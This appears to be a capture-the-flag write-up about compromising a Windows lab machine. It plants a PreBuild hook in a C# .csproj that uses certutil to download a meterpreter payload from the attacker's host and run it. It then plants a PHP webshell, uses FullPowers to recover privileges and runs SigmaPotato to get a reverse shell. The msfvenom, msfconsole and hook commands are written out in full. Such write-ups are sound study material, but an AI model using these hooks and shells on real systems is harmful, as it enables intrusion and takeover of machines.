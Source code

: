 
# Git with vengeance 

Build a solution from Visual Studio code. C# project will do. 

Right click on the project and go to the build section.

(!Picture)

Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at `*.csproj`
![Payload](attachments/Pastedimage20231005201455.png)

Utilizing the PreBuild tag, the Exec command = PAYLOAD

---

First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue. 

Need to change from powershell reverse shell into a MSFpayload with metasploit

![Reverseshell](<attachments/Pasted image 20231005211129.png>)
Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.

```pre
  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe&#xD;&#xA;c:\users\public\plz.exe" />
```

This is how inside the .csproj we get the payload to fire.


Payload was 
```msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe

```

Listener was 

```msfconsole
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"
```


![Serverpull](<attachments/Pasted image 20231005231302.png>)

This is the server yanking the files from me and finally executing my staged payload.

Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with

Doing 
```
C:\ dir /B /S index.php 
```


We can find the Area for the webpage we have been interacting with

![IMAGE](<attachments/Pasted image 20231005231850.png>)


From here we can replace the submit.php file with a php webshell

From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port. 

![img](<Pasted image 20231005232038.png>)

From here we can use the webshell we moved onto the box. Browse to the /submit.php 

![img](<attachments/Pasted image 20231005232132.png>)

We now have the access level of ![img](<attachments/Pasted image 20231005232257.png>)

Nice but not quite what we need. Working with dabois we found FullPower.exe 

https://github.com/itm4n/FullPowers
On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. Therefore, even if the service is compromised, **you won't get the golden impersonation privileges** and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.


So once we run that we now have the ability to gain SEimpersonate YIPEEE

Now using Tylers WICKED updated SIGMA POTATO https://github.com/tylerdotrar/SigmaPotato Which he lovingly built in with a revshell. 

FullPower.exe; SigmaPotato.exe --revshell IP PORT

![img](<attachments/Pasted image 20231005232627.png>)

YEEEEE

